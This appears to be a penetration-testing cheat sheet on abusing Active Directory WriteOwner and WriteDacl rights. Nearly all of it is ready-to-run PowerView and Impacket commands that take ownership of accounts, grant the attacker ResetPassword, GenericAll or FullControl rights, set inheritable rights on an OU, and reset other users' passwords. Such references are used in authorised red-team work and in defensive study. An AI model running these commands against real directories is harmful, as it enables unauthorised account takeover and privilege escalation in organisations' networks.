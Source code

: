 # DACL Attacks on any objects

## 1) WriteOwner

With this rights on a user it is possible to become the "owner" (Grant Ownership) of the account and then change our ACLs against it

    Set-DomainObjectOwner -Identity <target> -OwnerIdentity user1 -verbose
    Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity user1 -Rights ResetPassword

##### And change the password

    $cred = ConvertTo-SecureString "Password123!" -AsPlainText -force                  
    Set-DomainUserPassword -Identity <target> -accountpassword $cred

# Linux

    owneredit.py -new-owner user1 -target user2 -dc-ip <DC_IP> -action write 'domain.local'/'user1':'password'
    dacledit.py -action write -target user2 -principal user1 -rights ResetPassword -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'user1':'password'

##### And change the password

    net rpc password user2 -U 'domain.local'/'user1'%'password' -S DC.domain.local

## 2) WriteDacl

With this rights we can modify our ACLs against the target, and give us GenericAll for example

    Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity user1 -Rights All

In case where you have the right against a container or an OU, it is possible to setup the Inheritance flag in the ACE. The child objects will inherite the parent container/OU ACE (except if the object has AdminCount=1)

    $Guids = Get-DomainGUIDMap
    $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
    $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity user1 -Right ExtendedRight,ReadProperty,GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
    $OU = Get-DomainOU -Raw <OU_name>

    $dsEntry = $OU.GetDirectoryEntry()
    $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
    $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
    $dsEntry.PsBase.CommitChanges()

# Linux

    dacledit.py -action write -target user2 -principal user1 -rights FullControl -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'user1':'password'

    dacledit.py -inheritance -action write -target 'CN=Users,DC=domain,DC=local' -principal user1 -rights FullControl -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'user1':'password'
